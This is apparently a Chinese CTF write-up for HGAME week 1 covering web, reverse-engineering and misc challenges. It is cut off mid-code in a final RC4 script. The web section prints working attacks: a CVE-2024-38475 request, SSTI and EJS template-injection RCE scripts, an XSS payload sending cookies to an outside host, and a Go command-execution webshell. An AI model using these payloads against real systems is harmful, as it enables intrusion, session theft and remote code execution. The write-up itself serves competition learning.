# HGAME-WEEK1 WP (web re misc三方向ak)-先知社区

> **来源**: https://xz.aliyun.com/news/16830  
> **文章ID**: 16830

---

# WEEK1

# 签到

### 从这里开始的序章

hgame{Now-I-kn0w-how-to-subm1t-my-fl4gs!}

### nc



# Web

### Level 24 Pacman

搜索score





### Level 38475 角落

想办法搞到源码

dirsearch扫到/robots.txt

```
User-agent: *
Disallow: /app.conf
Disallow: /app/*
```

/app.conf

```
# Include by httpd.conf
<Directory "/usr/local/apache2/app">
    Options Indexes
    AllowOverride None
    Require all granted
</Directory>

<Files "/usr/local/apache2/app/app.py">
    Order Allow,Deny
    Deny from all
</Files>

RewriteEngine On
RewriteCond "%{HTTP_USER_AGENT}" "^L1nk/"
RewriteRule "^/admin/(.*)$" "/$1.html?secret=todo"

ProxyPass "/app/" "http://127.0.0.1:5000/"
```

源码位置/usr/local/apache2/app/app.py

利用RewriteRule

<https://github.com/p0in7s/CVE-2024-38475>

```
GET /admin/usr/local/apache2/app/app.py%3f HTTP/1.1
Host: 146.56.227.88:31769
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: L1nk/
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Connection: close
```



源码

```
from flask import Flask, request, render_template, render_template_string, redirect
import os
import templates

app = Flask(__name__)
pwd = os.path.dirname(__file__)
show_msg = templates.show_msg


def readmsg():
    filename = pwd + "/tmp/message.txt"
    if os.path.exists(filename):
        f = open(filename, 'r')
        message = f.read()
        f.close()
        return message
    else:
        return 'No message now.'


@app.route('/index', methods=['GET'])
def index():
    status = request.args.get('status')
    if status is None:
        status = ''
    return render_template("index.html", status=status)


@app.route('/send', methods=['POST'])
def write_message():
    filename = pwd + "/tmp/message.txt"
    message = request.form['message']

    f = open(filename, 'w')
    f.write(message)
    f.close()

    return redirect('index?status=Send successfully!!')


@app.route('/read', methods=['GET'])
def read_message():
    if "{" not in readmsg():
        show = show_msg.replace("{{message}}", readmsg())
        return render_template_string(show)
    return 'waf!!'


if __name__ == '__main__':
    app.run(host='0.0.0.0', port=5000)
```

payload生成

```
from fenjing import exec_cmd_payload, config_payload
import logging
logging.basicConfig(level = logging.INFO)

def waf(s: str): # 如果字符串s可以通过waf则返回True, 否则返回False
    blacklist = [

    ]
    return all(word not in s for word in blacklist)

if __name__ == "__main__":
    shell_payload, _ = exec_cmd_payload(waf, "cat /flag")
    # config_payload = config_payload(waf)

    print(f"{shell_payload=}")
    # print(f"{config_payload=}")
```

exp

```
# 用于构造payload的简单代码示例 
import requests
import threading

def send_payload():
    # 发送带有模板注入的消息
    payload = "{{g.pop.__globals__.__builtins__.__import__('os').popen('cat /flag').read()}}"
    requests.post("http://node1.hgame.vidar.club:31841/app/send", data={"message":payload})
def read_message():
    # 尝试读取消息
    a=requests.get("http://node1.hgame.vidar.club:31841/app/read")
    print(a.text)

# 创建多线程发送请求,利用竞争条件绕过WAF检查
threads = []
for i in range(10):
    t1 = threading.Thread(target=send_payload)
    t2 = threading.Thread(target=read_message)
    threads.append(t1)
    threads.append(t2)
    t1.start()
    t2.start()
```

### Level 47 BandBomb

deepseek一把梭

```
import requests
import sys

# 目标URL
target = sys.argv[1] if len(sys.argv) > 1 else 'http://node1.hgame.vidar.club:30835'

# 上传恶意模板文件
print("[*] Uploading malicious template...")
malicious_content = '<%= process.mainModule.require("child_process").execSync("set") %>'
files = {'file': ('test.ejs', malicious_content)}
upload_resp = requests.post(f"{target}/upload", files=files)
if upload_resp.status_code != 200:
    print(f"Upload failed: {upload_resp.text}")
    sys.exit(1)

# 重命名文件至views目录
print("[*] Renaming file to overwrite template...")
rename_data = {"oldName": "test.ejs", "newName": "../views/mortis.ejs"}
rename_resp = requests.post(f"{target}/rename", json=rename_data)
if rename_resp.status_code != 200:
    print(f"Rename failed: {rename_resp.text}")
    sys.exit(1)

# 触发模板渲染以获取flag
print("[*] Fetching flag...")
flag_resp = requests.get(target)
print(flag_resp.text)
```

### Level 69 MysteryMessageBoard

/flag路由需要admin

先爆破密码登入shallot



登入，发现是个留言系统，可以xss

发现还有admin路由，是个xss的bot



留言构造xss，访问/admin

```
<script>location.href="http://my-vps/"+document.cookie</script>
```



拿到admin的cookie，访问flag路由即可

### Level 25 双面人派对

下载main文件，`upx -d`脱壳，是个minio对象存储服务，找到用户名密码



下载minio客户端[dl.min.io/client/mc/release/](https://dl.min.io/client/mc/release/)

下载储存文件

```
└─# ./mc ls myminio
[2025-01-17 22:11:05 CST]     0B hints/
[2025-01-17 22:11:09 CST]     0B prodbucket/
└─# ./mc mirror myminio/ ./
...7.88:31211/prodbucket/update: 6.70 MiB / 6.70 MiB ┃▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓┃ 15.29 MiB/s 0s
└─# ./mc admin info myminio
●  146.56.227.88:31211
   Uptime: 58 minutes
   Version: 2024-12-18T13:15:44Z
   Network: 1/1 OK
   Drives: 1/1 OK
   Pool: 1

┌──────┬──────────────────────┬─────────────────────┬──────────────┐
│ Pool │ Drives Usage         │ Erasure stripe size │ Erasure sets │
│ 1st  │ 9.3% (total: 75 GiB) │ 1                   │ 1            │
└──────┴──────────────────────┴─────────────────────┴──────────────┘

6.7 MiB Used, 2 Buckets, 2 Objects
1 drive online, 0 drives offline, EC:0
```

拿到源码

```
package main

import (
    "level25/fetch"

    "level25/conf"

    "github.com/gin-gonic/gin"
    "github.com/jpillora/overseer"
)

func main() {
    fetcher := &fetch.MinioFetcher{
        Bucket:    conf.MinioBucket,
        Key:       conf.MinioKey,
        Endpoint:  conf.MinioEndpoint,
        AccessKey: conf.MinioAccessKey,
        SecretKey: conf.MinioSecretKey,
    }
    overseer.Run(overseer.Config{
        Program: program,
        Fetcher: fetcher,
    })

}

func program(state overseer.State) {
    g := gin.Default()
    g.StaticFS("/", gin.Dir(".", true))
    g.Run(":8080")
}
```

研究+实验发现overseer实现一个热重载，myminio/prodbucket/update获取源文件



添加一个webshell

```
package main

import (
    "fmt"
    "level25/fetch"
    "os/exec"

    "level25/conf"

    "github.com/gin-gonic/gin"
    "github.com/jpillora/overseer"
)

func main() {
    fetcher := &fetch.MinioFetcher{
        Bucket:    conf.MinioBucket,
        Key:       conf.MinioKey,
        Endpoint:  conf.MinioEndpoint,
        AccessKey: conf.MinioAccessKey,
        SecretKey: conf.MinioSecretKey,
    }
    overseer.Run(overseer.Config{
        Program: program,
        Fetcher: fetcher,
    })

}

func program(state overseer.State) {
    g := gin.Default()
    g.GET("/test", func(c *gin.Context) {
        c.String(200, "good")
    })
    g.GET("/shell", func(c *gin.Context) {
        // 获取URL中的command参数
        command := c.DefaultQuery("cmd", "")
        if command != "" {
            // 执行命令
            out, err := exec.Command("sh", "-c", command).Output()
            if err != nil {
                c.String(500, fmt.Sprintf("Error executing command: %v", err))
            } else {
                c.String(200, fmt.Sprintf("Command Output:
%s", out))
            }
        } else {
            c.String(400, "No command provided")
        }
    })

    g.Run(":8080")
}
```

编译后上传到对应位置

```
go build
mc cp main myminio/prodbucket/update
```



当然更简单就是把映射的本地目录`.`改成`/`



# Re

### Turtle

AI秒了

```
import json


def decode_tree(node):
    """Recursively decode the Huffman-like tree structure"""
    if 's' in node:
        return {node['s']: chr(node['s'])}

    left = decode_tree(node['a'])
    right = decode_tree(node['b'])
    return {**left, **right}


def decode_bits(encoded_bits, tree):
    """Decode the binary string using the decoded tree"""
    result = bytearray()
    current = tree

    for bit in encoded_bits:
        if bit == '0':
            current = current['a']
        else:
            current = current['b']

        if 's' in current:
            result.append(current['s'])
            current = tree

    return bytes(result)


def decompress(encoded_file):
    """Main decompression function"""
    # Split into tree and encoded data
    tree_json, encoded_bits = encoded_file.strip().split('
')

    # Parse the tree
    tree = json.loads(tree_json)

    # Decode using the tree
    return decode_bits(encoded_bits, tree)


# Example usage:
if __name__ == "__main__":
    with open('enc.txt', 'r') as f:
        encoded = f.read()

    decoded = decompress(encoded)
    print(decoded.decode('utf-8'))
```



### Delta Erro0000ors

有趣

题目源于[AmateursCTF-Public/2024/rev/flagpatch at main · les-amateurs/AmateursCTF-Public](https://github.com/les-amateurs/AmateursCTF-Public/tree/main/2024/rev/flagpatch)

nop掉try后反编译

```
int __fastcall main(int argc, const char **argv, const char **envp)
{
  HMODULE LibraryA; // rax
  char *v4; // rbx
  char *v5; // rdi
  __int64 v6; // rsi
  __int64 v7; // rax
  int v8; // ecx
  __int64 v9; // r8
  DELTA_INPUT v11; // [rsp+20h] [rbp-138h]
  DELTA_INPUT v12; // [rsp+38h] [rbp-120h]
  DELTA_INPUT Source; // [rsp+50h] [rbp-108h] BYREF
  DELTA_INPUT Delta; // [rsp+70h] [rbp-E8h] BYREF
  char Destination[16]; // [rsp+90h] [rbp-C8h] BYREF
  __int128 v16; // [rsp+A0h] [rbp-B8h]
  int v17; // [rsp+B0h] [rbp-A8h]
  char v18; // [rsp+B4h] [rbp-A4h]
  char Buffer[16]; // [rsp+B8h] [rbp-A0h] BYREF
  __int128 v20; // [rsp+C8h] [rbp-90h]
  __int64 v21; // [rsp+D8h] [rbp-80h]
  char Str1[16]; // [rsp+E0h] [rbp-78h] BYREF
  __int128 v23; // [rsp+F0h] [rbp-68h]
  __int128 v24; // [rsp+100h] [rbp-58h]
  __int128 v25; // [rsp+110h] [rbp-48h]
  __int128 v26; // [rsp+120h] [rbp-38h]
  __int128 v27; // [rsp+130h] [rbp-28h]
  int v28; // [rsp+140h] [rbp-18h]

  LibraryA = LoadLibraryA("msdelta.dll");
  hLibModule = LibraryA;
  if ( LibraryA )
  {
    ApplyDeltaB = (BOOL (__stdcall *)(DELTA_FLAG_TYPE, DELTA_INPUT *__struct_ptr, DELTA_INPUT *__struct_ptr, LPDELTA_OUTPUT))GetProcAddress(LibraryA, "ApplyDeltaB");
    DeltaFree = (BOOL (__stdcall *)(LPVOID))GetProcAddress(hLibModule, "DeltaFree");
  }
  else
  {
    puts("LoadLibrary Error");
  }
  *(_OWORD *)Str1 = 0i64;
  v23 = 0i64;
  v24 = 0i64;
  v25 = 0i64;
  v26 = 0i64;
  v27 = 0i64;
  v28 = 0;
  *(_OWORD *)Destination = 0i64;
  v16 = 0i64;
  v17 = 0;
  v18 = 0;
  *(_OWORD *)Buffer = 0i64;
  v20 = 0i64;
  v21 = 0i64;
  printf("input your flag:");
  scanf("%43s", Str1);
  if ( !strncmp(Str1, "hgame{", 6ui64) && BYTE10(v24) == 125 )
  {
    strncpy(Destination, &Str1[6], 0x24ui64);
    v12.Editable = 0;
    v12.lpcStart = Destination;
    v12.uSize = 37i64;
    v11.Editable = 0;
    v11.lpcStart = &unk_1400050A0;
    v11.uSize = 69i64;
    puts("Seven eats the hash and causes the program to appear to have some kind of error.");
    puts("Seven wants to make up for the mistake, so she's giving you a chance to patch the hash.");
    printf("input your MD5:");
    scanf("%32s", Buffer);
    v4 = Buffer;
    v5 = (char *)&unk_1400050B4;
    v6 = 16i64;
    do
    {
      sub_1400010E0(v4, "%02x", v5++);
      v4 += 2;
      --v6;
    }
    while ( v6 );
    word_1400050C4 = 0x7A01;
    Delta = v11;
    Source = v12;
    LODWORD(v7) = ApplyDeltaB(0i64, &Source, &Delta, &lpMemory);
    if ( !v7 )
    {
      puts("You didn't take advantage of this opportunity.");
      sub_1400014E0();
      exit(0);
    }
    v8 = 0;
    v9 = 0i64;
    do
    {
      if ( byte_140003438[v9] != ((unsigned __int8)Str1[v9] ^ *((_BYTE *)lpMemory.lpStart + v8 % lpMemory.uSize)) )
      {
        puts("Flag is error!!");
        sub_1400014E0();
        exit(0);
      }
      ++v8;
      ++v9;
    }
    while ( v8 < 43 );
  }
  puts(aGreat);
  DeltaFree(lpMemory.lpStart);
  FreeLibrary(hLibModule);
  return 0;
}
```

[Windows差异化补丁MSDelta之研究 | Ikoct的饮冰室](https://1k0ct.github.io/2024/04/29/Windows差异化补丁MSDelta之研究/#打补丁)

[ApplyDeltaB 函数 - Win32 apps | Microsoft Learn](https://learn.microsoft.com/zh-cn/windows/win32/devnotes/msdelta-applydeltab)

简单来说ApplyDeltaB功能就是“压缩/加密”文件及其元数据，压缩后以PA30(新)开头，包含时间信息、源数据大小、校验方式、校验值、压缩后数据(差异数据)等

> 在原文件为空的情况，视作“压缩/加密”，个人理解
>
> 实际是做一个差分补丁

如下加密数据

```
b'PA30\x30\x79\x49\xe0\x7e\x76\xdb\x01\x18\x23\xc8\x81\x03\x80\x42\x00\x23\x8d\xb4\x37\x55\xd1\xe6\x26\x35\x97\x28\x2e\x46\xe5\x6c\xf5\x01\x46\x00\x54\xe7\x2c\x5d\x9b\xe8\xee\xa5\xa7\x97\xde\x5e\xfa\x7a\xe9\xef\x05'
```

|  |  |  |
| --- | --- | --- |
| 数据 | 长度(byte) | 描述 |
| PA30 | 4 | 标准格式 |
| \x30\x79\x49\xe0\x7e\x76\xdb\x01 | 4+4 | 时间信息 |
| \x18\x23 | 2 | 定位 |
| \xc8\x81\x03\x80 | 4或3(不校验) | 校验方式及原数据大小 |
| \x42\x00 | 2或0(不校验) | 校验hash长度 |
| \x23\x8d\xb4\x37\x55\xd1\xe6\x26\x35\x97\x28\x2e\x46\xe5\x6c\xf5 | 16/20/0(不校验),具体根据校验hash长度 | 校验hash值，仅与原数据有关 |
| \x01\x46\x00\x54\xe7\x2c\x5d\x9b\xe8\xee\xa5\xa7\x97\xde\x5e\xfa\x7a\xe9\xef\x05 | 由原数据决定 | 定位符及加密数据，固定，与校验方式无关 |

校验方式分很多种[ALG\_ID (Wincrypt.h) - Win32 apps | Microsoft Learn](https://learn.microsoft.com/en-us/windows/win32/seccrypto/alg-id)，本题用的便是MD5(0x8003)，但MD5校验hash部分被更改为`Seveneatsthehash`，以至于会校验错误导致报0xD错误代码，由此导致被except捕获，在except中提供修改md5校验值，但校验值是原数据生成的，无法得知，如此便无从下手

好在压缩数据是独立的，不由校验方式决定，便可以修改校验方式来绕过，前面提到是有零校验的，对应位置修改为零校验标识即可

如下脚本可查看元数据和生成零校验标识，注意数据长度，本题原数据长度大小为28



```
import random
from delta_patch import apply_patch_to_buffer
from ctypes import (windll, wintypes, c_uint64, cast, POINTER, Union, c_ubyte,
                    LittleEndianStructure, byref, c_size_t, c_uint32,)
from Crypto.Util.strxor import strxor

DELTA_FLAG_TYPE = c_uint64
DELTA_FLAG_NONE = 0x00000000
DELTA_FILE_TYPE = c_uint64
DELTA_FILE_NONE = 0x00000001
HEADER = b'PA30XXXXXXXX\x18#'  # 14 bytes

class DELTA_HASH(LittleEndianStructure):
    _fields_ = [
        ('HashSize', c_uint32),
        ('HashValue', c_ubyte * 32)
    ]

class DELTA_INPUT(LittleEndianStructure):
    class U1(Union):
        _fields_ = [('lpcStart', wintypes.LPVOID),
                    ('lpStart', wintypes.LPVOID)]
    _anonymous_ = ('u1',)
    _fields_ = [('u1', U1),
                ('uSize', c_size_t),
                ('Editable', wintypes.BOOL)]


class DELTA_OUTPUT(LittleEndianStructure):
    _fields_ = [('lpStart', wintypes.LPVOID),
                ('uSize', c_size_t)]


class DELTA_HEADER_INFO(LittleEndianStructure):
    _fields_ = [('FileTypeSet', DELTA_FILE_TYPE),
                ('FileType', DELTA_FILE_TYPE),
                ('Flags', DELTA_FLAG_TYPE),
                ('TargetSize', c_size_t),
                ('TargetFileTime', wintypes._FILETIME),
                ('TargetHashAlgId', c_uint32),
                ('TargetHash', DELTA_HASH)]


CreateDelta = windll.msdelta.CreateDeltaB
CreateDelta.argtypes = [DELTA_FILE_TYPE, DELTA_FLAG_TYPE, DELTA_FLAG_TYPE, DELTA_INPUT, DELTA_INPUT,
                        DELTA_INPUT, DELTA_INPUT, DELTA_INPUT, POINTER(None), DELTA_FLAG_TYPE, POINTER(DELTA_OUTPUT)]
CreateDelta.rettype = wintypes.BOOL

GetDeltaInfoB = windll.msdelta.GetDeltaInfoB
GetDeltaInfoB.argtypes = [DELTA_INPUT, POINTER(DELTA_HEADER_INFO)]
GetDeltaInfoB.rettype = wintypes.BOOL

DeltaFree = windll.msdelta.DeltaFree
DeltaFree.argtypes = [wintypes.LPVOID]
DeltaFree.rettype = wintypes.BOOL
gle = windll.kernel32.GetLastError


# call
def createdelta(buf, final):
    dd = DELTA_INPUT()
    ds = DELTA_INPUT()
    dout = DELTA_OUTPUT()
    options = DELTA_INPUT()
    globaloptions = DELTA_INPUT()

    options.lpStart = cast(None, wintypes.LPVOID)
    options.Editable = False
    options.uSize = 0
    globaloptions.lpStart = cast(None, wintypes.LPVOID)
    globaloptions.uSize = 0

    ds.lpcStart = cast(buf, wintypes.LPVOID)
    ds.uSize = len(buf)
    ds.Editable = False

    dd.lpcStart = cast(final, wintypes.LPVOID)
    dd.uSize = len(final)
    dd.Editable = False

    args = [
        DELTA_FILE_NONE,
        DELTA_FLAG_NONE,
        DELTA_FLAG_NONE,
        ds,
        dd,
        options,
        options,
        globaloptions,
        cast(None, wintypes.LPVOID),
        0x8003,#加密方式
        # 0x0,
        byref(dout)
    ]

    status = CreateDelta(*args)
    if status == 0:
        raise Exception("CreateDelta failed with error {}".format(gle()))

    return dout
    # buf, n = dout.lpStart, dout.uSize

    # # first 14 bytes seem to be useless?
    # outbuf = bytes((c_ubyte*n).from_address(buf))
    # return (outbuf, len(outbuf))

def get_patch_info(_delta):
    delta = DELTA_INPUT()
    delta.lpcStart = cast(_delta, wintypes.LPVOID)
    delta.uSize = len(_delta)
    delta.Editable = False

    header_out = DELTA_HEADER_INFO()

    if GetDeltaInfoB(delta, header_out):
        return [header_out.FileTypeSet,
        header_out.FileType,
        header_out.Flags,
        header_out.TargetSize,
        header_out.TargetFileTime.dwLowDateTime,
        header_out.TargetFileTime.dwHighDateTime,
        hex(header_out.TargetHashAlgId),
        header_out.TargetHash.HashSize,
        bytes(header_out.TargetHash.HashValue[:header_out.TargetHash.HashSize])]
    else:
        return "Failed to run GetDeltaInfoB"
    
def remove_hash(delta, sz):
    _, _, _, _, _, _, hashalg, hashsize, _ = get_patch_info(delta)
    print(hashalg, hashsize)
    header = delta[:14] + sz # 256 size
    return header + delta[16 + 4 + hashsize:]

def gen_rand(vals=b'01', sz=256):
    buf = [vals[round(random.random())] for r in range(sz)]
    return bytes(buf)

def print_header(header_out):
    print(f'{header_out.FileTypeSet=}')
    print(f'{header_out.FileType=}')
    print(f'{header_out.Flags=}')
    print(f'{header_out.TargetSize=}')
    print(f'{header_out.TargetFileTime.dwLowDateTime=}')
    print(f'{header_out.TargetFileTime.dwHighDateTime=}')
    print(f'{hex(header_out.TargetHashAlgId)=}')
    print(f'{header_out.TargetHash.HashSize=}')
    print(f'{bytes(header_out.TargetHash.HashValue[:header_out.TargetHash.HashSize]).hex()=}')

if __name__ == '__main__':

    buf =   b''
    final = b'aaaabaaacaaadaaaeaaafaaagaaa'
    print(buf, final, sep='
')
    out1 = createdelta(buf, final)
    outbuf = bytes((c_ubyte*out1.uSize).from_address(out1.lpStart))
    print(outbuf, len(outbuf))

    print('\x' + '\x'.join(f'{i:02x}' for i in outbuf))
    #outbuf=b'\x50\x41\x33\x30\x30\x0b\xd0\x45\x74\x6c\xdb\x01\x18\x23\xc8\x11\x02\x01\x7a\x00\x51\xb5\x5e\x73\x7a\x8d\xf1\x30\xad\xd3\xa2\x69\x1e\x16\x8d\x9b\xe5\x6f\x4a\x2f\x0f\x53\x06\xf5\x1b\x30\xc3\x73\x16\x0d'
    #outbuf=b'\x50\x41\x33\x30\x20\x66\x37\x5c\x74\x76\xdb\x01\x18\x23\xb8\x82\x03\x80\x42\x00\x80\xbf\x55\xc6\xc9\x6b\x2d\x0b\x6d\xc0\xd3\x24\x66\x36\x54\x8d\x01\x5e\x00\xb7\xab\x85\x19\x40\xa6\x37\x11\xb1\xeb\xc8\x8d\xc5\x8b\x3f\x88\x9e\x97\x73\xc8\x59\x56\x01'
    #outbuf=b'\x50\x41\x33\x30\xc0\x50\xf5\x0e\x79\x76\xdb\x01\x18\x23\x58\x12\x02\x01\x5e\x00\x57\xe7\x2c\x5d\x9b\xe8\xee\xa5\xa7\x97\xde\x5e\xfa\x7a\xe9\xef\x65\xa0\x97\xc1\x5e\x86\x00'
    #outbuf=b'\x50\x41\x33\x30\x20\x25\x1d\x94\x79\x76\xdb\x01\x18\x23\xc8\x11\x02\x80\x42\x00\x23\x8d\xb4\x37\x55\xd1\xe6\x26\x35\x97\x28\x2e\x46\xe5\x6c\xf5\x01\x46\x00\x54\xe7\x2c\x5d\x9b\xe8\xee\xa5\xa7\x97\xde\x5e\xfa\x7a\xe9\xef\x05'
    outbuf = b"PA30\x30\x0b\xd0\x45\x74\x6c\xdb\x01\x18#\xc8\x81\x03\x80\x42\x00Seveneatsthehash\x01z\x00Q\xb5^sz\x8d\xf10\xad\xd3\xa2i\x1e\x16\x8d\x9b\xe5oJ/\x0fS\x06\xf5\x1b0\xc3s\x16\r"

    delta = DELTA_INPUT()
    delta.lpcStart = cast(outbuf, wintypes.LPVOID)
    delta.uSize = len(outbuf)
    delta.Editable = False

    header_out = DELTA_HEADER_INFO()

    if GetDeltaInfoB(delta, header_out):
        print_header(header_out)

    buf = b''
    out = apply_patch_to_buffer(buf, outbuf)
    print(out)

    #8004
    #\x50\x41\x33\x30\xe0\x20\x42\xa1\x6d\x76\xdb\x01\x18\x23\xb8\x82\x04\x80\x52\x00\x7c\x4a\xdb\xc3\x92\x64\xd0\x13\xef\xbc\x15\xcd\x05\xcd\x6a\x36\x0c\xb6\x80\xfd\x01\x0f\xb7\xab\x85\x19\xd8\x56\x01
    #8003
    #\x50\x41\x33\x30\x20\x31\x46\xc0\x6d\x76\xdb\x01\x18\x23\xb8\x82\x03\x80\x42\x00\x73\x23\x8d\xf1\x19\x8d\x5a\x54\xef\x1f\x5f\x80\xbc\x73\x63\xef\x01\x0f\xb7\xab\x85\x19\xd8\x56\x01
    #0
    #\x50\x41\x33\x30\x00\xad\x7d\xcd\x6d\x76\xdb\x01\x18\x23\xb8\x12\x02   \x01\x0f\xb7\xab\x85\x19\xd8\x56\x01

```

修改加密方式为0x0，生成`\xc8\x11\x02`，遂将0x8003全部加密信息(`\x18#`后 到 `\x01`前)改为`\xc8\x11\x02`，执行`apply_patch_to_buffer`

拿到零校验标识`\xc8\x11\x02`也可一把梭

```
from test import get_patch_info
from delta_patch import apply_patch_to_buffer

def remove_hash(delta, sz):
    _, _, _, _, _, _, hashalg, hashsize, _ = get_patch_info(delta)
    print("=======================")

    print(hashalg, hashsize)
    header = delta[:14] + sz
    return header + delta[16 + 4 + hashsize:]

patch = b"PA30\x30\x0b\xd0\x45\x74\x6c\xdb\x01\x18#\xc8\x81\x03\x80\x42\x00Seveneatsthehash\x01z\x00Q\xb5^sz\x8d\xf10\xad\xd3\xa2i\x1e\x16\x8d\x9b\xe5oJ/\x0fS\x06\xf5\x1b0\xc3s\x16\r"

print(len(patch))
buf = b'hgame{'
try:
    out = apply_patch_to_buffer(buf, patch)
    print(out)
except Exception as e:
    print(e)

print(patch)
print(get_patch_info(patch))

patch = remove_hash(patch, b'\xc8\x11\x02')
print(patch)
print(get_patch_info(patch))

out = apply_patch_to_buffer(buf, patch)
print(out)
```

delta\_patch模块

```
from ctypes import (windll, wintypes, c_uint64, cast, POINTER, Union, c_ubyte,
                    LittleEndianStructure, byref, c_size_t)
import zlib


# types and flags
DELTA_FLAG_TYPE             = c_uint64
DELTA_FLAG_NONE             = 0x00000000
DELTA_APPLY_FLAG_ALLOW_PA19 = 0x00000001


# structures
class DELTA_INPUT(LittleEndianStructure):
    class U1(Union):
        _fields_ = [('lpcStart', wintypes.LPVOID),
                    ('lpStart', wintypes.LPVOID)]
    _anonymous_ = ('u1',)
    _fields_ = [('u1', U1),
                ('uSize', c_size_t),
                ('Editable', wintypes.BOOL)]


class DELTA_OUTPUT(LittleEndianStructure):
    _fields_ = [('lpStart', wintypes.LPVOID),
                ('uSize', c_size_t)]


# functions
ApplyDeltaB = windll.msdelta.ApplyDeltaB
ApplyDeltaB.argtypes = [DELTA_FLAG_TYPE, DELTA_INPUT, DELTA_INPUT,
                        POINTER(DELTA_OUTPUT)]
ApplyDeltaB.rettype = wintypes.BOOL
DeltaFree = windll.msdelta.DeltaFree
DeltaFree.argtypes = [wintypes.LPVOID]
DeltaFree.rettype = wintypes.BOOL
gle = windll.kernel32.GetLastError

def apply_patch_to_buffer(inbuf, patch_contents):
    # casting
    buf = cast(inbuf, wintypes.LPVOID)
    buflen = len(inbuf)

    # most (all?) patches (Windows Update MSU) come with a CRC32 prepended to the file
    # we don't really care if it is valid or not, we just need to remove it if it is there
    # we only need to calculate if the file starts with PA30 or PA19 and then has PA30 or PA19 after it
    magic = [b"PA30"]
    if patch_contents[:4] in magic and patch_contents[4:][:4] in magic:
        # we have to validate and strip the crc instead of just stripping it
        crc = int.from_bytes(patch_contents[:4], 'little')
        if zlib.crc32(patch_contents[4:]) == crc:
            # crc is valid, strip it, else don't
            patch_contents = patch_contents[4:]
    elif patch_contents[4:][:4] in magic:
        # validate the header strip the CRC, we don't care about it
        patch_contents = patch_contents[4:]
    # check if there is just no CRC at all
    elif patch_contents[:4] not in magic:
        # this just isn't valid
        raise Exception("Patch file is invalid")
 
    applyflags = DELTA_FLAG_NONE

    dd = DELTA_INPUT()
    ds = DELTA_INPUT()
    dout = DELTA_OUTPUT()

    ds.lpcStart = buf
    ds.uSize = buflen
    ds.Editable = False

    dd.lpcStart = cast(patch_contents, wintypes.LPVOID)
    dd.uSize = len(patch_contents)
    dd.Editable = False

    status = ApplyDeltaB(applyflags, ds, dd, byref(dout))
    if status == 0:
        raise Exception("Patch failed with error {}".format(gle()))

    return bytes((c_ubyte*dout.uSize).from_address(dout.lpStart))

def apply_patchfile_to_buffer(buf, buflen, patchpath, legacy = False):
    with open(patchpath, 'rb') as patch:
        patch_contents = patch.read()

    # most (all?) patches (Windows Update MSU) come with a CRC32 prepended to the file
    # we don't really care if it is valid or not, we just need to remove it if it is there
    # we only need to calculate if the file starts with PA30 or PA19 and then has PA30 or PA19 after it
    magic = [b"PA30"]
    if legacy:
        magic.append(b"PA19")
    if patch_contents[:4] in magic and patch_contents[4:][:4] in magic:
        # we have to validate and strip the crc instead of just stripping it
        crc = int.from_bytes(patch_contents[:4], 'little')
        if zlib.crc32(patch_contents[4:]) == crc:
            # crc is valid, strip it, else don't
            patch_contents = patch_contents[4:]
    elif patch_contents[4:][:4] in magic:
        # validate the header strip the CRC, we don't care about it
        patch_contents = patch_contents[4:]
    # check if there is just no CRC at all
    elif patch_contents[:4] not in magic:
        # this just isn't valid
        raise Exception("Patch file is invalid")
 
    applyflags = DELTA_APPLY_FLAG_ALLOW_PA19 if legacy else DELTA_FLAG_NONE

    dd = DELTA_INPUT()
    ds = DELTA_INPUT()
    dout = DELTA_OUTPUT()

    ds.lpcStart = buf
    ds.uSize = buflen
    ds.Editable = False

    dd.lpcStart = cast(patch_contents, wintypes.LPVOID)
    dd.uSize = len(patch_contents)
    dd.Editable = False

    status = ApplyDeltaB(applyflags, ds, dd, byref(dout))
    if status == 0:
        raise Exception("Patch {} failed with error {}".format(patchpath, gle()))

    return (dout.lpStart, dout.uSize)


if __name__ == '__main__':
    import sys
    import base64
    import hashlib
    import argparse

    ap = argparse.ArgumentParser()
    mode = ap.add_mutually_exclusive_group(required=True)
    output = ap.add_mutually_exclusive_group(required=True)
    mode.add_argument("-i", "--input-file",
                      help="File to patch (forward or reverse)")
    mode.add_argument("-n", "--null", action="store_true", default=False,
                      help="Create the output file from a null diff "
                           "(null diff must be the first one specified)")
    output.add_argument("-o", "--output-file",
                        help="Destination to write patched file to")
    output.add_argument("-d", "--dry-run", action="store_true",
                        help="Don't write patch, just see if it would patch"
                             "correctly and get the resulting hash")
    ap.add_argument("-l", "--legacy", action='store_true', default=False,
                    help="Let the API use the PA19 legacy API (if required)")
    ap.add_argument("patches", nargs='+', help="Patches to apply")
    args = ap.parse_args()

    if not args.dry_run and not args.output_file:
        print("Either specify -d or -o", file=sys.stderr)
        ap.print_help()
        sys.exit(1)

    if args.null:
        inbuf = b""
    else:
        with open(args.input_file, 'rb') as r:
            inbuf = r.read()

    buf = cast(inbuf, wintypes.LPVOID)
    n = len(inbuf)
    to_free = []
    try:
        for patch in args.patches:
            buf, n = apply_patchfile_to_buffer(buf, n, patch, args.legacy)
            to_free.append(buf)

        outbuf = bytes((c_ubyte*n).from_address(buf))
        if not args.dry_run:
            with open(args.output_file, 'wb') as w:
                w.write(outbuf)
    finally:
        for buf in to_free:
            DeltaFree(buf)

    finalhash = hashlib.sha256(outbuf)
    print("Applied {} patch{} successfully"
          .format(len(args.patches), "es" if len(args.patches) > 1 else ""))
    print("Final hash: {}"
          .format(base64.b64encode(finalhash.digest()).decode()))
```

拿到b"Seven says you're right!!!!\x00"



xor



ApplyDeltaB正常会先先还原在进行校验，按理步进断点到校验前也可以拿到还原数据

### Turtle

利用xvolk脱壳



两次rc4，第一次rc4验证第二次rc4的要用的key，第二次用第一次输入的key 魔改rc4验证flag



正常rc4，key为`yekyek`



enc1



第二次魔改rc4，做减法，key为第一次rc4逆向解密结果



```
#!/usr/bin/env python

def init_rc4(key, length):
    S = list(range(256))
    j = 0
    for i in range(256):
